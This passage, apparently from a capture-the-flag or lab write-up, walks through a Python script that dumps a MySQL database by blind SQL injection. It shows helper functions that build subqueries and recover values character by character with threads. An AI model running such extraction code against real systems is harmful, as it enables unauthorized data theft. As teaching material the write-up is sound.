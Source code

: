 First, it shows the version of MySQL. And then, it starts the dumping process:

1. Get the name of the current database
2. Get the name of the tables in the current database
3. For each table, get the name of the columns
4. For each column, get all values (rows)

Table `stories` and columns `ganalitics` and `date_created` where skipped because they where too large and useless to compromise the machine.

To dump the contents of a given value, we use `dump_content` providing a valid SQL query. To create the query, we make use of the `sql` function:

```python
def sql(column: str, table: str, where: str = '', limit: int = None) -> str:
    if not where and limit is None:
        return f'(select {column} from {table})'
    elif limit is None:
        return f'(select {column} from {table} where {where})'
    elif not where:
        return f'(select {column} from {table} limit {limit},1)'

    return f'(select {column} from {table} where {where} limit {limit},1)'
```

Depending on the type of query we need, we can add or remove parameters. As shown above, we consider four possibilities.

The function called `dump_content` is this one:

```python
def dump_content(payload: str) -> str:
    n = get_length(payload)
    data = ['_' for _ in range(n)]
    start_threads(n, (data, payload, 32, 126))

    return ''.join(data)
```

Basically, it gets the length of the value we want to dump and creates a list of characters of this length, in order to find characters one by one using threads.

Function `get_length` obtains the length of a given value as follows:

```python
def get_length(payload: str) -> int:
    n = 1

    while not do_sqli(get_data_length(payload, n)):
        n += 1

        if n > 10:
            print('NOT FOUND')
            sys.exit()

    data = [' ' for _ in range(n)]

    payload = f'convert(length({payload}),char)'
    start_threads(n, (data, payload, ord('0'), ord('9')))

    return int(''.join(data))
```
